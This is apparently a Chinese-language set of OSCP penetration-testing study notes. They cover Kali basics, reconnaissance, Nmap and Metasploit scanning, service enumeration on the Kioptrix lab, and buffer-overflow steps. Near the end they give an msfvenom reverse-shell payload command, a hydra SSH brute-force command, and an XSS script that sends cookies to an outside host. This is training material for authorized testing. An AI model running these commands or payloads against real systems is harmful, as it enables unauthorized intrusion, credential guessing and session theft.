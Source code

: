 # OSCP笔记  

## 第一件事情：改root密码  
root@kali:/# passwd  


## 常用命令  
pwd, man, ls, cd, mkdir, rmdir, cp, mv, locate, adduser, su, sudo, echo, cat, vim, chmod, ifconfig, ping  


## 常用服务  
apache2, ssh, postgresql

kali> service apache2 start  
kali> systemctl enable apache2  


## 信息收集  
Google (inurl:cnn.com, filetype:pdf, intext, .etc)  
Exploit-DB / Google Hacking DB  
shodan  
WHOIS  
Netcraft  
theharvester  


## 扫描  
TCP vs UDP  

### Nmap  
> 选项：-vv详细，-Pn不论是否存活一律扫描，-A综合扫描，-sS SYN扫描，-sU UDP扫描，-T4扫描速度（1慢，5快），-p指定端口，-p-所有端口，-oN输出格式，--script使用脚本扫描  

kali> nmap -vv -sS -Pn -A -p 1-65535 -T4 -oN /root/tcpscan.txt 192.168.X.X/24              # TCP SYN扫描  
kali> nmap -vv -sU -Pn -A -top-ports 200 -T4 -oN /root/udpscan.txt 192.168.X.X/24          # UDP扫描  
kali> nmap -vv -p 137 --script=all 192.168.X.X                                    # 对137端口跑脚本  

### Nessus  
kali> dpkg -i <Nessus安装包\>.deb     # 安装  
kali> /etc/init.d/nessusd start     # 启动  

### Metasploit  
kali> msfconsole     # 启动msf  
msf> search portscan        # 查找模块  
msf> use auxilary/...       # 使用  
msf> show options           # 查看模块信息  
msf> set ports 1-65535      # 设置参数  
msf> set rhosts 192.168.15.2  
msf> set threads 10  
msf> exploit                # 开始  



## Kioptrix Level 1  

### SSH信息枚举（SSH版本）  
查看版本，然后去`searchsploit`或exploit-db找漏洞  

### HTTP信息枚举（Web Server版本，目录，文件等）  
1. 查看网页源码  
2. 查看HTTP通信流量  
3. 目录扫描（dirbuster, nikto，御剑）  

字典：github: dirbuster wordlist  

### SMB信息枚举（OS版本，SMB版本，$IPC等）  
kali> enum4linux  
msf> use auxiliary/scanner/smb/smb_version  
kali> nbtscan  
kali> smbclient  

### DNS枚举  
kali> host [-t [ns|mx]] zonetransfer.me  
kali> host -l <url> <ns>     # DNS Zone Transfer  
kali> dnsrecon  
kali> dnsenum  



## 栈溢出（Buffer Overflow）

        |--------|      |---------|    
        |  Text  |      |   ESP   |
        |--------|      |---------|
        |  Data  |      |  Buffer | 
        |--------|      |    ↓    |
        |  Heap  |      |         |
        |   ↓    |   /  |---------|
        |        |  /   |   EBP   |         
        |--------| /    |---------|
        |        |      |   EIP   |
        |   ↑    |      |---------|
        | Stack  |      |   arg2  |
        |--------| \    |---------|
        | Kernel |  \   |   arg1  |
        |--------|   \  |---------|

1. Fuzzing (and finding badchars)  
2. Finding the offset  
3. Overwriting the EIP  
4. exploit with shellcode generated by `msfvenom`  

生成shellcode  
kali> msfvenom -p windows/shell_reverse_tcp LHOST=X.X.X.X LPORT=4444 EXITFUNC=thread -f python/c/exe -a x86 --platform windows -e x86/shikata_ga_nai -x ... -o a.exe  

检查恶意程序的网站  
https://www.virustotal.com/  


### Client Side Attacks（客户端攻击）  

通过PDF、浏览器、Java Applet漏洞攻击，结合社工工具setools  




## Online Password Attacks  
  
> The last thing to try  
  
暴力破解SSH
kali> hydra -v -l root -P /usr/share/wordlists/rockyou.txt X.X.X.X ssh -t 4s  



## Web Attacks

### XSS
> 窃取cookie
```js
<script>location.href='http://192.168.1.100/index.php?test='+document.cookie;<script/>
```


